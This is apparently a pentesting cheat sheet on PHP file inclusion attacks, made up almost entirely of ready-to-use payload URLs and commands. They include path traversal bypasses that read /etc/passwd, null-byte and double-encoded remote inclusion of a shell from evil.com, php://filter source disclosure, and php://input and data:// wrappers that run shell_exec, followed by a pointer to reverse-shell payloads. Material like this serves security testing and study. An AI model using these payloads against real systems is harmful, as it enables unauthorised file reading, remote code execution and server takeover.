 ### Bypassing Tricks

```
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
```

#### Null byte

This was patched since PHP 5.4

```
http://example.com/index.php?page=http://evil.com/shell.txt%00
```

#### Double encoding

```
http://example.com/index.php?page=http:%252f%252fevil.com%252fshell.txt
```

#### From existing folder

```
http://example.com/index.php?page=utils/scripts/../../../../../etc/passwd
```

#### Wrapper php://filter

```
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
```

### RCE Methods&#x20;

#### PHP Wrappers

**Wrapper input://**

```
curl -k -v "http://example.com/index.php?page=php://input" --data "<?php echo shell_exec('id'); ?>"
```

Since we have code execution all we have to do is make sure that we get a reverse shell using different payloads from Payloads of All things.&#x20;

#### Wrapper data://

```
echo '<?php phpinfo(); ?>' | base64 -w0 -> PD9waHAgcGhwaW5mbygpOyA/Pgo=

http://example.com/index.php?page=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pgo=

Or 
menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>
If code execution, you should see phpinfo(), go to the disable_functions and craft a payload with functions which aren't disable.

Code execution with 
	- exec
	- shell_exec
	- system
	- passthru
	- popen

```